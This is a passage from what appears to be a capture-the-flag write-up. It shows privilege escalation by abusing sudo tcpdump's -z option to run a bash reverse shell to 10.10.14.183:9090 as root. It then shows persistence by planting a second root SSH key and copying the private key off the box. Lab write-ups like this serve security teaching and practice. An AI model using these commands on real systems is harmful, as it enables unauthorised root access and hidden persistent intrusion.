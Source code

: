 We use the same set of commands again, this time just modifying the malicious command.

```shell
COMMAND="bash -c 'bash -i >& /dev/tcp/10.10.14.183/9090 0>&1'"
TF=$(mktemp)
echo "$COMMAND" > $TF
chmod +x $TF
sudo /usr/sbin/tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
```

+Note+: We are using a sub-shell e.g. `bash -c 'bash -i >& /dev/tcp/10.10.14.183/9090 0>&1'` as otherwise this will not execute correctly.

We get a call back to our listener.
![](/ox-hugo/2025-06-01-170441_.png)

Let's get our root flag.
![](/ox-hugo/2025-06-01-170521_.png)


## 5. Persistence: {#5-dot-persistence}


### Adding A Secondary Root SSH key: {#adding-a-secondary-root-ssh-key}

So typically what we could do is make a new user, however I am going to generate another key for the root user.

1.  Generate SSH Key for the User:
    ```shell
    ssh-keygen -t rsa -b 4096
    ```

{{< figure src="/ox-hugo/2025-06-01-172112_.png" >}}

1.  Copy Public Key to Authorized Keys:
    ```shell
    cp ~/.ssh/id_rsa2.pub ~/.ssh/authorized_keys
    ```

    -   This command copies the public key to the authorized_keys file, which is used by SSH to authenticate the user.

2.  Copy Private key to attack machine and put in it's own file.
    ```shell
    cat id_rsa2
    ```

3.  Change the mode of the key so the permissions are not too open:
    ```shell
    sudo chmod 400 id_rsa
    ```

4.  Verify it works:
    ```shell
    ssh -i id_rsa2 root@$box
    ```
